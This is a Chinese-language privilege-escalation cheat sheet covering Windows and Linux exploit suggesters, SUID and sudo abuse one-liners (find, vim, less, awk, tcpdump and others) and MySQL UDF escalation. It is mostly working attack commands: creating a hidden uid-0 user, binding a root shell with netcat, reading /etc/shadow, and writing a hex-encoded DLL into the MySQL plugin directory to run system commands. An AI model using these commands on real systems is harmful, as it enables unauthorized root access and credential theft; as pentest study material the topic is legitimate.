

# 各种提权

## Windows

### 常用神洞

CVE-2018-8120
MS16-032
MS15-051
MS14-058 

### Windows Exploit Suggester

```shell
#更新漏洞数据库，会生成一个xls的文件，如下 2020-11-11-mssb.xls 
python windows-exploit-suggester.py --update 
#查看目标主机系统信息，保存为sysinfo.txt文件 
systeminfo > sysinfo.txt 
#然后运行如下命令，查看该系统是否存在可利用的提权漏洞 
python windows-exploit-suggester.py -d 2020-11-11-mssb.xls -i sysinfo.txt
```


## Linux

### 常用神洞

DirtyCow

### 使用 linux-exploit-suggester.sh

```
$ ./linux-exploit-suggester.sh
...
[+] [CVE-2017-16995] eBPF_verifier

   Details: https://ricklarabee.blogspot.com/2018/07/ebpf-and-analysis-of-get-rekt-linux.html
   Exposure: highly probable
   Tags: debian=9.0{kernel:4.9.0-3-amd64},fedora=25|26|27,[ ubuntu=14.04 ]{kernel:4.4.0-89-generic},ubuntu=(16.04|17.04){kernel:4.(8|10).0-(19|28|45)-generic}
   Download URL: https://www.exploit-db.com/download/45010
   Comments: CONFIG_BPF_SYSCALL needs to be set && kernel.unprivileged_bpf_disabled != 1

[+] [CVE-2017-1000112] NETIF_F_UFO

   Details: http://www.openwall.com/lists/oss-security/2017/08/13/1
   Exposure: probable
   Tags: [ ubuntu=14.04{kernel:4.4.0-*} ],ubuntu=16.04{kernel:4.8.0-*}
   Download URL: https://raw.githubusercontent.com/xairy/kernel-exploits/master/CVE-2017-1000112/poc.c
   ext-url: https://raw.githubusercontent.com/bcoles/kernel-exploits/cve-2017-1000112/CVE-2017-1000112/poc.c
   Comments: CAP_NET_ADMIN cap or CONFIG_USER_NS=y needed. SMEP/KASLR bypass included. Modified version at 'ext-url' adds support for additional distros/kernels

[+] [CVE-2016-8655] chocobo_root

   Details: http://www.openwall.com/lists/oss-security/2016/12/06/1
   Exposure: probable
   Tags: [ ubuntu=(14.04|16.04){kernel:4.4.0-(21|22|24|28|31|34|36|38|42|43|45|47|51)-generic} ]
   Download URL: https://www.exploit-db.com/download/40871
   Comments: CAP_NET_RAW capability is needed OR CONFIG_USER_NS=y needs to be enabled
```

### suid 提权

已知的可用来提权的linux可行性的文件列表如下：

```
nmap
vim
find
bash
more
less
nano
cp
chmod
ash/linux shell
awk
mv
man
python
perl
tcpdump
```

查找所有s权限的文件

```shell
find / -perm -u=s -type f 2>/dev/null

/表示从文件系统的顶部（根）开始并找到每个目录
-perm 表示搜索随后的权限
-u = s表示查找root用户拥有的文件
-type表示我们正在寻找的文件类型
f 表示常规文件，而不是目录或特殊文件
2表示该进程的第二个文件描述符，即stderr（标准错误）
>表示重定向
/ dev / null是一个特殊的文件系统对象，它将丢弃写入其中的所有内容。
```


#### 以`find`提权为例

find ./ -type f -exec id \;


> Linux密码生成规则 https://blog.csdn.net/jiajiren11/article/details/80376371

```shell
# 生成用户密码，密码值为ezpasswd内容，abcdefg为salt值
openssl passwd -1 -salt 'abcdefg' 'ezpasswd'
# 得到值
$1$abcdefg$Sh/N2Oieg5Wrh7qT2oIZ3/
# 添加用户 -o 表示可以重复id
find /etc/passwd -type f -exec useradd -u 0 -g 0 -p \$1\$abcdefg\$Sh/N2Oieg5Wrh7qT2oIZ3/ -o test999 \;
```

#### Vim

Vim是Linux环境下的一款文件编辑器。但是，如果以SUID运行的话，它会继承root用户的权限，因此可以读取系统上的所有文件。

```
vim.tiny
# Press ESC key
:set shell=/bin/sh
:shell
```

#### Netcat

大部分Linux操作系统都安装了netcat，因此也可以被利用来将权限提升至root。

```
find pentestlab -exec netcat -lvp 5555 -e /bin/sh \;
连接上去就会直接获取到一个Root权限的shell。
netcat 192.168.1.189 5555
id
cat /etc/shadow
```

#### Bash

```
bash -p
bash-3.2# id
uid=1002(service) gid=1002(service) euid=0(root) groups=1002(service)
```

#### More

```
more /home/pelle/myfile
!/bin/bash
```

#### less

首先使用 `sudo -l`查看都有什么权限，如果是下图权限，则直接进行所有操作


如果仅有部分权限，会在下面进行显示，这是就可以利用可以执行的命令进行提权，如有less的执行权限，那么使用less 文件名，输入`!/bin/sh`即可获得root权限的shell。

```
less /etc/passwd
!/bin/sh
```


#### cp(暂未验证）

```
sudo sh -c 'cp $(which cp) .; chmod +s ./cp'
```

#### chmod(暂未验证）

```
sudo sh -c 'cp $(which chmod) .; chmod +s ./chmod'
```

####  ash/linux shell

```
sudo ash
```

#### awk

```
awk 'BEGIN {system("/bin/bash")}'
```

#### mv(暂时未有实例）

```
使用mv 覆盖 /etc/shadow 或者/etc/sudoers
```

#### man

```
man passwd
!/bin/bash
```

#### python

```
import os
os.system("/bin/bash")
```

#### perl

```
exec "/bin/bash";
```

ruby/lua/etc也有相似

#### tcpdump

```
echo $'id\ncat /etc/shadow' > /tmp/.test
chmod +x /tmp/.test
sudo tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z /tmp/.test -Z root
```

> 可以参考 https://www.cnblogs.com/zaqzzz/p/12075132.html

## 常用手法

### MSF

使用`post/windows/gather/enum_patches`模块，并配置相应的session后自动获取可使用的提权漏洞


MSF下还提供了`post/multi/recon/local_exploit_suggester`模块，该模块用于快速识别系统中可能被利用的漏洞


### Mysql UDF提权

UDF文件名为 udf.dll，存放在MySQL安装目录的 lib/plugin 目录下(当MySQL>5.1，该目录默认不存在)。在 udf.dll 文件中，我定义了名为 sys_eval() 的 MySQL 函数，该函数可以执行系统任意命令。

>当 MySQL< 5.1 版本时，将 .dll 文件导入到 c:\windows 或者 c:\windows\system32 目录下。
>当 MySQL> 5.1 版本时，将 .dll 文件导入到 MySQL Server 5.xx\lib\plugin 目录下 (lib\plugin目录默认不存在，需自行创建)。

一查看  secure_file_priv  的值

secure_file_priv 是用来限制 load dumpfile、into  outfile、load_file() 函数在哪个目录下拥有上传或者读取文件的权限

```
show global variables like 'secure%';
     当 secure_file_priv 的值为 NULL ，表示限制 mysqld 不允许导入|导出，此时无法提权
     当 secure_file_priv 的值为 /tmp/ ，表示限制 mysqld 的导入|导出只能发生在 /tmp/ 目录下，此时也无法提权
     当 secure_file_priv 的值没有具体值时，表示不对 mysqld 的导入|导出做限制，此时可提权
```

我们先查看 secure_file_priv 的值是否为空，因为只有为空我们才能继续下面的提权步骤。

如果 secure_file_priv 为NULL是不能写入导出文件的。


如果 secure_file_priv没有具体的值，则可以写入导出文件。


- secure_file_priv 的值在MySQL数据库的安装目录的 my.ini 文件中配置。

- 如果 secure_file_priv没有具体的值，则可以写入导出文件。

-  secure_file_priv 的值在MySQL数据库的安装目录的 my.ini 文件中配置。


二 **查看系统架构以及plugin目录**

```
show variables like '%compile%';             #查看主机版本及架构
show variables like 'plugin%';               #查看 plugin 目录
```


这里是 x64 位的系统，我们可以去kali中 /usr/share/metasploit-framework/data/exploits/mysql/ 目录下载64位的 .dll 文件。(由于我这里MSF更改过，所以路径有所不同)


三 **将dll文件写入plugin目录,并且创建函数**

创建一个表并将二进制数据插入到十六进制编码流中。你可以通过insert语句或将其分解为多个部分，然后通过update语句拼接二进制数据。

```
create table temp(data longblob);
insert into temp(data) values (0x4d5a90000300000004000000ffff0000b800000000000000400000000000000000000000000000000000000000000000000000000000000000000000f00000000e1fba0e00b409cd21b8014ccd21546869732070726f6772616d2063616e6e6f742062652072756e20696e20444f53206d6f64652e0d0d0a2400000000000000000000000000000);
update temp set data = concat(data,0x33c2ede077a383b377a383b377a383b369f110b375a383b369f100b37da383b369f107b375a383b35065f8b374a383b377a382b35ba383b369f10ab376a383b369f116b375a383b369f111b376a383b369f112b376a383b35269636877a383b300000000000000000000000000000000504500006486060070b1834b00000000);
select data from temp into dumpfile "G:\\phpstudy_pro\\Extensions\\MySQL5.7.26\\lib\\plugin\\udf.dll";
create function sys_eval returns string soname 'udf.dll';   #创建函数sys_eval
```

执行select data from temp into dumpfile "G:\\phpstudy_pro\\Extensions\\MySQL5.7.26\\lib\\plugin\\udf.dll"; 时有可能会出现以下错误，因为当MySQL大于5.1时，默认是没有 lib\plugin 目录的。而 into dumpfile在写入文件时也不能创建文件夹，所以也就报错了：Can't create/write to file 


而在执行 create function sys_eval returns string soname 'udf.dll'; 命令时出现 1126 - Can't open shared library 'udf.dll'的错误。我看网上有的解释是说是因为在MySQL安装目录下默认没有 lib\plugin 目录导致的。但是我不认为是这个错误，因为如果上一步将dll文件写到 lib\plugin 目录没报错的话，说明dll文件已经写到 lib\plugin 目录了，因此也就不存在这个错误。但是目前还没有找到解决版本。


四 使用系统命令

在将 udf.dll 文件写入plugin目录后，我们就可以使用 sys_eval 函数了。

```python
select * from mysql.func where name = 'sys_eval';    #查看创建的sys_eval函数
select sys_eval('whoami');                           #使用系统命令
```


